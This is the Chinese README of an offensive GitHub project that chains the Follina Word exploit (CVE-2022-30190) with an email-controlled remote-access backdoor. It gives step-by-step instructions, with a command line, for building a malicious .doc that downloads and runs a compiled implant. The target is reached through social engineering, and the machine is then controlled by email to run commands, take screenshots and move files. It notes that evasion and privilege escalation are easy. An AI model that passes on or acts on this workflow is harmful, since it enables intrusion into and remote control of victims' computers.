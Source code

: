 # AmzWord

一个基于CVE-2022-30190，163邮箱后门，以及图片隐写的自动化攻击链实现。

感谢以下github仓库，我们参考并修改了部分代码，集成实现了我们的工作：

- [gdog](https://github.com/maldevel/gdog)
- [follina](https://github.com/Noxtal/follina)
- [virtual-reality](https://github.com/rokups/virtual-reality)

# 需求

gdog：

- Python 2.7
- PyCrypto module
- WMI module
- Enum34 module
- Netifaces module

follina：

- Python 3.x

# 使用&攻击流程

1. 利用follina.py构建恶意word文件，并打开http监听

   - 您可以更改代码中的默认名字和默认ip
   - 也可以使用`--ip`和`--output`来指定
   - 详细使用方法请参考[follina](https://github.com/Noxtal/follina)，我们没有更改使用接口
   - eg：`python follina.py --ip 100.100.100.100 --output maldoc.doc`

2. 修改gdog下的client.py和gdog.py，填入以下信息

   ```python
   gmail_user = 'your email'
   gmail_pwd = 'your pwd'
   server = "smtp server"
   imap_server = 'imap server'
   ```

3. 将client.py编译成tar.exe置于/follina/www下

4. 使用任意社会工程学方式发送给目标，只要受害者打开了word，就会自动下载tar.exe并执行

5. 攻击者本地运行gdog并发送命令控制目标机器，使用方式参见[follina](https://github.com/Noxtal/follina)

# 备注

1. 这只是一个攻击链实现的demo，运行的exe甚至可以在任务管理器里找到，这方便观察效果。我们并没有做免杀、隐藏、提权等操作，当然这些在Windows上并不困难，不是吗？
2. gdog项目时间有些久了，为了让他顺利运行起来我们花了很大力气，目前确定能实现的远控指令包括：执行命令、截屏、弹窗、关机、锁屏、传输文件，这些功能足以适应大多数的需求。
3. 不知道为什么，imap的SUBJECT搜索似乎有些问题，我们无法搜到目标主题的邮件，返回为空。我们只能采取其他方法，比如：读取所有未读邮件，筛选出目标，再将其他置为未读。这在受控用户较多时可能出现问题，有待解决。
4. 本项目一切仅供学习交流使用。